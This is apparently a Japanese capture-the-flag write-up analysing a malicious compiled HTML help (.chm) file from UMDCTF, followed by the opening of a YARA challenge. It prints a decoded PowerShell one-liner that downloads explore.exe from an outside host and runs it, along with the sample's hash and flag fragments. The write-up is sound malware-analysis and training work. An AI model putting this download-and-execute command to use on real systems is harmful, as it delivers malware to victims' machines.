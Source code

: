 <br />

実はたまたま最近、.chmファイルタイプのマルウェアを調べる機会があったんですよね。

参考にしたUnit42のブログ：

https://unit42.paloaltonetworks.com/malicious-compiled-html-help-file-agent-tesla/

<br />

.chmファイルは、`7z x`で解凍が可能です。

<br />

解凍して出てくる test.html の中に、Base64でエンコードされている文字列があります。デコードすると、以下になります。

`I.n.v.o.k.e.-.W.e.b.R.e.q.u.e.s.t. .-.U.r.i. .h.t.t.p.:././.d.n.s.-.s.e.r.v.e.r...o.n.l.i.n.e.:.6.9.6.9./.e.x.p.l.o.r.e...e.x.e. .-.O.u.t.F.i.l.e. .e.x.p.l.o.r.e...e.x.e.;. .S.t.a.r.t.-.P.r.o.c.e.s.s. .e.x.p.l.o.r.e...e.x.e.;. .=.'.g.u.r.l._.j.n.a.g._.g.u.r.v.e.'.`

<br />

余計な `.` を取り除いて見やすくすると、以下になります。フラグの一部っぽい文字列 `gurl_jnag_gurve` も見つかります。

<pre>
Invoke-WebRequest -Uri http://dns-server.online:6969/explore.exe -OutFile explore.exe; Start-Process explore.exe; ='gurl_jnag_gurve'.
</pre>

<br />

また、test.html には、コメントが含まれていて、フラグの一部 `UMDCTF{1997_called_` が見つかります。

<br />

`explore.exe`は、実際にダウンロードすることができて、Hash値は `63d961efa8c959a1f890d584daa07beffba0138e296aa08a5d639ef4b5b33d51` です。

<br />

VirusTotalのScoreでは、多くのセキュリティベンダーがマルウェア判定しています。

https://www.virustotal.com/gui/file/63d961efa8c959a1f890d584daa07beffba0138e296aa08a5d639ef4b5b33d51

<br />

ここでPEファイルが入手できたので、静的解析やら動的解析やらをして、フラグの最後のピースを探そうとした人が多かったんじゃないかと思います。

わたしもその内の一人で、ここで詰みました。。

他の方のWriteupを参照すると、http://dns-server.online:6969/ に `present.txt` というファイルがあり、そこから最後のフラグが取れたようですね。

<br />

まぁ、そういうチャレンジもありなのかと思いますが、どうせなら`present.txt`に繋がる情報を`explore.exe`の中に埋め込んでおいて貰えたらもっと親切だったのに、とは思いました。






<br /><br />
<br /><br />
## [Forensics]: YARA Trainer Gym (427 points)
- - -
### Challenge
> My pokemon aren't very strong yet so I need to slip past the sigs written by the 8 YARA gym leaders! Can you help me!!!
<br /><br />
Note: you can run the yara rules locally with yara yara_rules.yar $file
<br /><br />
https://yara-trainer-gym.chall.lol
